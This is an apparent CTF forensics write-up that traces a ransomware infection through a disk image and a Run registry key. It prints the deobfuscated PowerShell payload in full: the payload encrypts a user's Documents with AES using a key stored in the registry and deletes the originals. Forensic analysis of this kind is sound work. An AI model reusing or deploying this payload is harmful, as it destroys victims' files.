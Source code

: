 ## Unsolved

The format of given file is AD1 so we need to check it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

There is non-default user **sand-4ECC834FCF** so I tried to analyze it.
In description '.. when he installs something suddenly his device reboots and his files suddenly disappear .. ', we can assume the ransomware need to reboot/login for got executed. In windows you can set what device will do everytime user got login in Registry Key. 

I used Registry Explorer tool to check on registry HCKU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run for malicious entry via NTUSER.DAT

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

We can know that there is file named **console.bat** was executed. The content of that file is encoded powershell code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I used powerdecode tool to decode and deobfuscate it and this is the result.

```poweshell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

